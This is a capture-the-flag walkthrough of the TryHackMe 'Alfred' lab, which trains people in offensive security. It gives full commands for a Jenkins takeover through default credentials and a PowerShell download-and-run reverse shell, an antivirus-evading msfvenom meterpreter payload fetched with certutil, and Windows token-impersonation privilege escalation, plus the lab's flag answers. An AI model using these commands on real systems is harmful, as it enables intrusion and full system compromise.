# [Alfred](https://tryhackme.com/r/room/alfred)



[Alfred](https://tryhackme.com/r/room/alfred) is listed as an easy room. Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens. An overview of what we’ll be using is listed here:

* Nmap
* Nishang PowerShell
* Metasploit

## Task 1 - Initial Access


In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. 

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

Please note that this machine _does not respond to ping_ (ICMP) and may take a few minutes to boot up.



### Answer the questions below

* How many ports are open? (TCP only)

	`3`

	```
	nmap -sV -sC $IP -T4 -oN nmap-default
	```

	File nmap scan [here](./files/nmap-default)

	

* What is the username and password for the login panel? (in the format username:password)

	``

	* Opern IP address with Port 8080
	
		

	* Try to default credential `admin:admin`
	
		


* Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

	You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server

	* Setup HTTP Server
	
		```
		python3 -m http.server 8000
		```

* What is the user.txt flag? 

	`79007a09481963edf2e1321abd9ae2a0`

	* Setup listener
	
		```
		nc -nvlp 8888
		```

		

	* Open the project
	
		

	* Configure the project
	
		

	* Add command to download file script
	
		```
		powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.95.148:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.95.148 -Port 8888
		```

		

	* Run Build Now
	
		

	* Get the shell
	
		

	* Get the flag
	
		

## Task 2 - Switching Shells


To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create a Windows meterpreter reverse shell using the following payload:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```

This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```

Before running this program, ensure the handler is set up in Metasploit:

```
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run
```

This step uses the Metasploit handler to receive the incoming connection from your reverse shell. Once this is running, enter this command to start the reverse shell

```
Start-Process "shell-name.exe"
```

This should spawn a meterpreter shell for you!

### Answer the questions below

* What is the final size of the exe payload that you generated?

	``

	* Create Windows meterpreter reverse shell
	
		```
		msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.95.148 LPORT=9999 -f exe -o shell-kakakseram.exe
		```

		

	* Setup handler in Metasploit
	
		```
		msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.11.95.148; set LPORT 9999; run"
		```

		

	* Downloading the payload on the target system using certutil command
	
		```
		certutil.exe -urlcache -f http://10.11.95.148:8000/shell-kakakseram.exe shell-kakakseram.exe
		```

		

	* Run script file
	
		```
		.\shell-kakakseram.exe
		```

		

	* Get the shell meterpreter
	
		

## Task 3 - Privilege Escalation


Now that we have initial access, let's use token impersonation to gain system access.

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

* User SIDs(security identifier)
* Group SIDs
* Privileges

Amongst other things. More detailed information can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

There are two types of access tokens:

* Primary access tokens: those associated with a user account that are generated on log on
* Impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:

* SecurityAnonymous: current user/client cannot impersonate another user/client
* SecurityIdentification: current user/client can get the identity and privileges of a client but cannot impersonate the client
* SecurityImpersonation: current user/client can impersonate the client's security context on the local system
* SecurityDelegation: current user/client can impersonate the client's security context on a remote system

Where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

* SeImpersonatePrivilege
* SeAssignPrimaryPrivilege
* SeTcbPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeCreateTokenPrivilege
* SeLoadDriverPrivilege
* SeTakeOwnershipPrivilege
* SeDebugPrivilege

There's more reading [here](https://www.exploit-db.com/papers/42556).

### Answer the questions below

* View all the privileges using whoami /priv

	```
	getprivs
	```
	
	

* You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability.

	Enter: load incognito to load the incognito module in Metasploit. Please note that you may need to use the use incognito command if the previous command doesn't work. Also, ensure that your Metasploit is up to date.

	

* To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available.

	

	Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators' token. What is the output when you run the getuid command?

	

* Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).

	Ensure that you migrate to a process with correct permissions (the above question's answer). The safest process to pick is the services.exe process. First, use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS

	

	

* Read the root.txt file located at C:\Windows\System32\config

	`dff0f748678f280250f25a45b8046b4a`

	